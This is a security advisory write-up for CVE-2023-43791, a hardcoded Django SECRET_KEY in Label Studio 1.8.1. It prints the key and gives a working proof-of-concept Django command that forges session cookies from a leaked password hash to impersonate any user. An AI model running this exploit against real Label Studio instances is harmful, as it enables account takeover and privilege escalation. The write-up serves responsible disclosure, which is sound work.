 # CVE-2023-43791: Hardcoded Django SECRET_KEY that can be Abused to Forge Session Tokens
# Introduction

This write-up describes the technical details for [`CVE-2023-43791`](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-f475-x83m-rx5m) vulnerability that was found in [Label Studio](https://github.com/HumanSignal/label-studio), a popular open source data labeling tool. The vulnerability was found to affect versions before `1.8.2`, where a patch was introduced.

# Overview

In [Label Studio version 1.8.1](https://github.com/HumanSignal/label-studio/tree/1.8.1), a hard coded Django `SECRET_KEY` was set in the application settings. The Django `SECRET_KEY` is used for signing session tokens by the web application framework, and should never be shared with unauthorised parties.

However, the Django framework inserts a `_auth_user_hash` claim in the session token that is a HMAC hash of the account's password hash. That claim would normally prevent forging a valid Django session token without knowing the password hash of the account. However, any authenticated user can exploit an Object Relational Mapper (ORM) Leak vulnerability in Label Studio to leak the password hash of any account on the platform ([CVE-2023-47117](https://github.com/HumanSignal/label-studio/security/advisories/GHSA-6hjj-gq77-j4qw)), which was reported as a separate vulnerability. An attacker can exploit the ORM Leak vulnerability and forge session tokens for all users on Label Studio using the hard coded `SECRET_KEY`.

# Description

Below is the code snippet of the Django settings file at [`label_studio/core/settings/base.py`](https://github.com/HumanSignal/label-studio/blob/1.8.1/label_studio/core/settings/base.py#L108).

```python
# SECURITY WARNING: keep the secret key used in production secret!
SECRET_KEY = '$(fefwefwef13;LFK{P!)@#*!)kdsjfWF2l+i5e3t(8a1n'
```

This secret is hard coded across all instances of Label Studio.

# Proof of Concept

Below are the steps that an attacker could do to forge a session token of any account on Label Studio:

1. Exploit the ORM Leak vulnerability in Label Studio to retrieve the full password hash that will be impersonated. For this example, a session token will be forged for an account with the email `ghostccamm@testvm.local` with the password hash `pbkdf2_sha256$260000$KKeew1othBwMKk2QudmEgb$ALiopdBpWMwMDD628xeE1Ie7YSsKxdXdvWfo/PvVXvw=` that was retrieved.

2. Create a new Django project with an empty application. In `cookieforge/cookieforge/settings.py` set the `SECRET_KEY` to `$(fefwefwef13;LFK{P!)@#*!)kdsjfWF2l+i5e3t(8a1n`. Create a management command with the following code that will be used to create forged session tokens.

```python
from typing import Any
from django.core.management.base import  BaseCommand, CommandParser
from django.core import signing
from django.utils.crypto import salted_hmac
from django.conf import settings
import time, uuid

class Command(BaseCommand):
    help = "Forge a users session cookie on Label Studio"

    def add_arguments(self, parser: CommandParser) -> None:
        parser.add_argument(
            '-o', '--organisation',
            help='Organisation ID to access',
            default=1,
            type=int
        )

        parser.add_argument(
            'user_id',
            help='The User ID of the victim you want to impersonate',
            type=str
        )

        parser.add_argument(
            'user_hash',
            help='The password hash the user you want to impersonate'
        )

    def handle(self, *args: Any, **options: Any) -> str | None:
        key = settings.SECRET_KEY
        # Creates the _auth_user_hash HMAC of the victim's password hash
        auth_user_hash = salted_hmac(
            'django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash',
            options['user_hash'],
            secret=key,
            algorithm="sha256"
        ).hexdigest()

        session_dict = {
            'uid': str(uuid.uuid4()), 
            'organization_pk': options['organisation'], 
            'next_page': '/projects/', 
            'last_login': time.time(), 
            '_auth_user_id': options['user_id'], 
            '_auth_user_backend': 
            'django.contrib.auth.backends.ModelBackend', 
            '_auth_user_hash': auth_user_hash, 
            'keep_me_logged_in': True, 
            '_session_expiry': 600
        }

        # Creates a forged session token
        session_token = signing.dumps(
            session_dict,
            key=key,
            salt="django.contrib.sessions.backends.signed_cookies",
            compress=True
        )

        self.stdout.write(
            self.style.SUCCESS(f"session token: {session_token}")
        )
```

3. Next run the following command replacing the `{user_id}` with the user ID of the account you want to the impersonate and `{user_hash}` with the victim's password hash. Copy the session token that is printed.

```python
python3 manage.py forgecookie {user_id} '{user_hash}'
```

4. Change the `sessionid` cookie on the browser and refresh the page. Observe being authenticated as the victim user.

# Impact

This vulnerability can be chained with the ORM Leak vulnerability in Label Studio to impersonate any account on Label Studio. An attacker could exploit these vulnerabilities to escalate their privileges from a low privilege user to a Django Super Administrator user.

# Discovered
- August 2023, Alex Brown, elttam